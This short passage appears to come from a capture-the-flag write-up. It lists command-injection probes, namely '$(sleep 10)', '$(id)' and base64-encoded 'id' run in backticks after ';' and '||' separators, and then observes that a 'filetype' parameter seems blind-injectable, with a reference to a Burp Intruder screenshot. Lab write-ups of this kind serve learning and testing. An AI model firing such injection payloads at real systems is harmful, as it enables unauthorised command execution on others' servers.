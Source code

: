 ```
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```

The parameter `filetype` seems to be blind injectable.  

![burp intruder 1](/images/photobomb_intruder1.png)  